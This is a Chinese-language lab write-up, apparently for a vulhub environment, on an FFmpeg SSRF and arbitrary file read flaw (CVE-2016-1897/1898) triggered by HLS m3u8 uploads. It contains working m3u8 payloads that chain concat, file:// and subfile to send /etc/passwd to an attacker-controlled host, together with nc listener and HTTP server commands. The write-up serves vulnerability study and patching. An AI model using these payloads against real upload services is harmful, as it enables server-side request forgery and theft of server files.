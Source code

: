 # ffmpeg 任意文件读取漏洞/SSRF漏洞 （CVE-2016-1897/CVE-2016-1898）

## 原文链接&靶场链接

http://blog.neargle.com/SecNewsBak/drops/CVE-2016-1897.8%20-%20FFMpeg%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90.html

https://blog.csdn.net/EC_Carrot/article/details/117510184

https://www.freebuf.com/articles/web/258320.html

https://vulhub.org/#/environments/ffmpeg/CVE-2016-1897/

## 影响范围

- FFmpeg 2.8.x < 2.8.5
- FFmpeg 2.7.x < 2.7.5
- FFmpeg 2.6.x < 2.6.7
- FFmpeg 2.5.x < 2.5.10

## 什么是FFmpeg

FFmpeg是一套可以用来记录、转换数字音频、视频，并能将其转化为流的开源计算机程序。功能非常强大，是每个视频网站必不可少的多媒体文件处理程序。

## 漏洞概述

在FFMpeg2.X 由于在解析HTTP Live Streaming流媒体m3u8文件处理不当，可导致SSRF漏洞与任意文件读取漏洞。当网站允许用户上传多媒体文件，并使用FFMpeg进行处理时会触发该漏洞。

这个漏洞有两个CVE编号，分别是CVE-2016-1897和CVE-2016-1898，它们两个的区别在于读取文件的行数，CVE-2016-1897只能读取文件的第一行，而CVE-2016-1898可以读取文件任意行，原理基本一样。

## 什么是HLS

漏洞是出现在解析HLS流媒体文件时的问题,所以必须先了解HLS

HLS（HTTP Live Streaming）是Apple公司开发的一种基于HTTP协议的流媒体通信协议，大多数都应用在PC上和Iphone上。它的基本原理是把一个视频流分成很多个很小很小很小的ts流文件，然后通过HTTP下载，每次下载一点点。在一个开始一个新的流媒体会话时，客户端都会先下载一个m3u8（播放列表 Playlist）文件，里面包含了这次HLS会话的所有数据。

如图所示，有一个主要的m3u8格式Playlist文件，里面可以包含下级的m3u8文件，客户端会再去索引下级的m3u8，继续解析下级的Playlist文件获取最终的TS流文件的http请求地址与时间段。

```
http://pl.youku.com/playlist/m3u8?vid=340270152&type=3gphd&ts=1462714824&keyframe=0&ep=dSaSGE6MUssC5ybeiz8bYiXiIiZdXP0O9h2CgdNnAtQnS%2Bm2&sid=746271452251312590fab&token=3319&ctype=12&ev=1&oip=3395898128
```

这是youku一个视频的m3u8文件，内容如下：

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXT-X-VERSION:2
#EXTINF:6,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=0&ts_end=5.9&ts_seg_no=0&ts_keyframe=1
#EXTINF:0,
http://183.60.145.83/69777D60D183E7FE8D0BC25A4/030002010056208D059E4E15049976CD642E01-C8E5-706F-DC6D-375DE0DA5A1E.flv.ts?ts_start=5.9&ts_end=6.367&ts_seg_no=1&ts_keyframe=1
#EXT-X-ENDLIST
```

解析：

```
#EXTM3U 标签是m3u8的文件头，开头必须要这一行
#EXT-X-TARGETDURATION 表示整个媒体的长度 这里是6秒
#EXT-X-VERSION:2 该标签可有可无
#EXTINF:6, 表示该一段TS流文件的长度
#EXT-X-ENDLIST 这个相当于文件结束符
这些是m3u8的最基本的标签，而问题就出在FFMpeg去请求TS流文件的时，由于我们可以伪造一个m3u8文件，FFMpeg不会判断里面的流地址，直接请求。
```

## 漏洞复现

启动靶场后访问192.168.123.133:8080,一个上传页面

![image-20220501162242565](https://user-images.githubusercontent.com/85486547/166141322-384de497-2e84-4e47-bcd0-5be44bb57ca9.png)



由于vulhub并没有讲述该漏洞如何复现，我们需要进入环境查看源码

```php
cat index.php 
<?php
if(!empty($_FILES)) {
    $filename = escapeshellarg($_FILES['file']['tmp_name']);
    $newname = './' . uniqid() . '.mp4';
    shell_exec("ffmpeg -i $filename $newname");
}
```

可以看到实际上只是借用了 ffmpeg -i 这个命令来处理视频文件。





首先构造一个恶意的 m3u8 的文件(用记事本编写，保存为`.m3u8`后缀)：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://your_ip:9999/test.txt
#EXT-X-ENDLIST
```

```
参数说明
#EXTM3U 标签是 m3u8 的文件头，开头必须要这一行
#EXT-X-MEDIA-SEQUENCE 表示每一个media URI 在 PlayList中只有唯一的序号，相邻之间序号+1
#EXTINF:10.0, 表示该一段 TS 流文件的长度
#EXT-X-ENDLIST 这个相当于文件结束符
```

由于`FFMpeg` 去请求 TS 流文件（URL）时，`FFMpeg` 不会判断里面的流地址，直接请求。所以我们可以试想，用`FFMpeg`内自带的concat函数，将一个不包含文件结束符的文件与file协议读取的文件衔接起来，请求回攻击机，就能够达到读取任意文件的效果！

### 步骤一

在我们自己的web服务器上创建一个back.txt，文本内容是m3u8的格式，其中不包含文本结束符

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://192.168.123.128:9999/?
```

开启http服务

```
python3 -m http.server 8888
```

监听9999端口

```
nc -lvnp 9999
```

### 步骤二

上传恶意upload.m3u8文件

```
#EXTM3U
#EXT-X-TARGETDURATION:6
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|file:///etc/passwd
#EXT-X-ENDLISTa
```



web端读取到数据
![image-20220501171153607](https://user-images.githubusercontent.com/85486547/166141336-f06897f9-78b3-4cc1-913d-b03fe3fd7052.png)



### 步骤三

可以发现以上的操作方式，只能将 /etc/passwd 数据中的第一行带外出来，但是后面的内容还是没有读出来，因此我们借助其他函数进行进一步利用。ffmpeg 还提供了 subfile 函数，其中 Start 后是开始截取的偏移量，以字节为单位，end 是结束的偏移量。

```
subfile,,start,153391104,end,268142592,,:/media/dvd/VIDEO_TS/VTS_08_1.VOB
Start后是开始截取的偏移量，以字节为单位，end是结束的偏移量。

既然可以截取数据流就可以利用subfile获取比较完整的文件了。测试时候一次最多只能截取32字节，所以要继续用concat合并多个数据流片段。
```

只需要改恶意的 upload.m3u8 文件

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|subfile,,start,0,end,31,,:///etc/passwd|subfile,,start,32,end,79,,:///etc/passwd
#EXT-X-ENDLIST
```

在逐渐增加 subfile 偏移量的测试过程中，发现超过一定长度后，数据读取部分不再增加。猜测可能和 URL 长度或者和换行符有关。

在不断测试的过程中，最终发现，与 URL 长度，m3u8 请求 URL 都无关系，也没有 32 字节的限制。实际上 concat 连接 URL 时是不能包含换行符的。/etc/passwd 文件存储过程中换行符 \n 是占一个字符的，所以无论是通过 file 协议，还是 subfile 切片，只要是读取到 \n 则中断，后面的内容无法输出。

按照这个思路，我们能只需要通过 subfile 读取文件时，跳过 \n 符号，不断根据返回的数据进行调试，最终可以读取到完整的数据。以如下的 /etc/passwd 的文件为例，附上 payload 参考：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://192.168.123.128:8888/back.txt|subfile,,start,0,end,31,,:///etc/passwd|subfile,,start,32,end,79,,:///etc/passwd|subfile,,start,80,end,116,,:///etc/passwd|subfile,,start,117,end,153,,:///etc/passwd|subfile,,start,154,end,188,,:///etc/passwd|subfile,,start,189,end,236,,:///etc/passwd|subfile,,start,237,end,284,,:///etc/passwd|subfile,,start,285,end,329,,:///etc/passwd|subfile,,start,330,end,373,,:///etc/passwd|subfile,,start,374,end,423,,:///etc/passwd|subfile,,start,424,end,475,,:///etc/passwd|subfile,,start,476,end,518,,:///etc/passwd|subfile,,start,519,end,571,,:///etc/passwd|subfile,,start,572,end,624,,:///etc/passwd|subfile,,start,625,end,686,,:///etc/passwd|subfile,,start,687,end,735,,:///etc/passwd|subfile,,start,736,end,817,,:///etc/passwd|subfile,,start,818,end,876,,:///etc/passwd|subfile,,start,877,end,918,,:///etc/passwd|subfile,,start,919,end,965,,:///etc/passwd
#EXT-X-ENDLIST
```

![image-20220501174002759](https://user-images.githubusercontent.com/85486547/166141365-c03d4a11-7572-4d6f-956c-80bbccb8aa44.png)


## 修复

目前该漏洞已在FFMpeg**2.8.5**中修复，请广大用户马上升级
